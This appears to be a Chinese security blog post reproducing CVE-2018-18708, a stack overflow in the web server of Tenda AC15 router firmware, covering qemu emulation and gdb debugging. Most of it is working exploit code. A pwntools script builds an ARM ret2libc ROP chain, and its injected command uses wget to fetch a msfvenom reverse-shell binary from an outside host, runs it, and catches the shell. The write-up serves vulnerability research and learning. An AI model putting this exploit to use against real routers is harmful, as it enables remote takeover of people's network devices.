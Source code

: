 ```yaml
---
title: Tenda 路由器 CVE-2018-18708 漏洞复现
date: 2024-03-14 15:47:30
tags: [IOT, 路由器， Pwn]
categories: [技术]
---
```


参考：[Tenda CVE-2018-18708 漏洞复现 (z1r0.top)](https://www.z1r0.top/2022/10/08/CVE-2018-18708-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#%E9%80%86%E5%90%91%E5%88%86%E6%9E%90)

固件下载：[https://github.com/z1r00/IOT_Vul/blob/main/固件下载/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip](https://github.com/z1r00/IOT_Vul/blob/main/%E5%9B%BA%E4%BB%B6%E4%B8%8B%E8%BD%BD/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip)

### Start

该固件的 `httpd` 有一个栈溢出漏洞，在 post 请求处理函数 `fromAddressNat()` 中拼接 `page` 参数时使用了 `sprintf` 但没有做长度限制，导致此处变量 `v6` 可以造成栈溢出

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_ida.png)

直接 qemu 模拟：

```bash
sudo chroot . ./qemu-arm-static /bin/httpd
```

模拟的时候由于它带一些环境检查，所以会卡在一些地方，用 ida 简单处理下就行，最后会提示获取的 IP 地址为 `255.255.255.255`

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_ip.png)

为了解决 IP 地址的问题，需要创建一个网桥

```bash
# 创建网桥
sudo brctl addbr br0
# 向网桥中加入网卡
sudo brctl addif br0 eth0 
# 开启网桥
sudo ifconfig br0 up 
# 可选，用于dhcp获取地址
sudo dhclient br0
# 直接设置 IP
sudo ifconfig br0 10.0.0.2/24
```

然后访问 web 页面，会提示 page not found，将 `webroot_ro` 的文件复制到 `webroot` 即可

通过抓包可以知道，不管是 get 还是 post 必须包括 cookie：password

```python
cookie = {"password" : "114514"}

try:
    requests.post("http://169.254.162.25/goform/addressNat",  timeout=1, cookies=cookie)
except:pass
```

这样发包 httpd 的 log 会有反应，用 gdb 调试看看

```bash
# 开启 gdb 调试端口 1234
sudo chroot . ./qemu-arm-static -g 1234 /bin/httpd
```

```bash
$ gdb-multiarch /bin/httpd
pwndbg> target remote 127.0.0.1:1234
```

在危险函数附近下个断点，看看能不能断下来，实际测试是能断下来，说明执行链过去了

然后可以传参 page 看看能不能溢出，答案是可以

```python
cookie = {"password" : "114514"}
payload = cyclic(256+0x100)

param = { "page": payload }
try:
    requests.post("http://169.254.162.25/goform/addressNat",  params=param, timeout=1, cookies=cookie)
```

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/tenda_of.png)

并且可以使用 `cyclic_find("laac")` 查找出 pc 偏移是 244，但是实际是还要 + 4，不太懂是为什么

既然可以控制 pc，那么可以考虑 ret2libc 执行 system，我没有真机，qemu user 模拟出来是没有随机化的，先打打看吧

```python
Arch: arm
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8000)
```

libc 的地址可以 gdb 里用 `vmmap` 看看，虽然它没显示 libc 的名字，但是 size 最大的那个地址一般就是 libc

于是得知 `libcBase = 0x3fd9c000`

rop 思路：gadget1 给寄存器 reg 赋值 `system` 地址，`/bin/sh` 可以写栈上，gadget2 找那种 mov r0, sp; blx reg，这里正好有一组适合的 gadget

```python
# 先找第二个，然后决定第一个用什么寄存器
# ROPgadget --binary libc.so.0|grep  "mov r0, sp"
0x0001fd64 : mov r0, sp ; sub r1, fp, #0x8c ; blx r3
# 所以第一个用 r3，很好找到
0x00018298 : pop {r3, pc}
```

```python
from pwn import *
import requests

libc = ELF("/home/hex/Desktop/TendaCVE/_US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin.extracted/libc.so.0")
l = listen(9001)
libcBase = 0x3fd9c000
cookie = {"password" : "114514"}
# payload = cyclic(256+0x100)
# pc_offset = cyclic_find("laac") = 244
# r4_offset = cyclic_find("kaac") = 240
pop_r3_pc = 0x00018298 + libcBase # pop {r3, pc}
mov_r0_sp = 0x0001fd64 + libcBase # mov r0, sp;

cmd = b"/usr/bin/wget http://192.168.123.30:8888/venom -O /var/venom; /bin/chmod 777 /var/venom; /var/venom"
# cmd 写入的位置正好是 sp
# 用 msfvenom 生成了反弹 shell 木马，反弹连本机
# msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.123.30 LPORT=9001 -f elf -o venom
# 随便用 busybox 开个 web 服务把马子放进去就行

payload = b"a"*244 + b"a"*4 + p32(pop_r3_pc) + p32(libcBase+libc.symbols["system"]) + p32(mov_r0_sp) + cmd
param = { "page": payload }
try:
    requests.post("http://169.254.162.25/goform/addressNat",  params=param, timeout=1, cookies=cookie)
except:pass
l.wait_for_connection()
success("reversed shell")
l.interactive()
```

随后我尝试用 qemu system 模拟，但是 gdbserver 传上去，本地 gdb 连上会报错，查了下是个存在很久的 bug，后面没搞了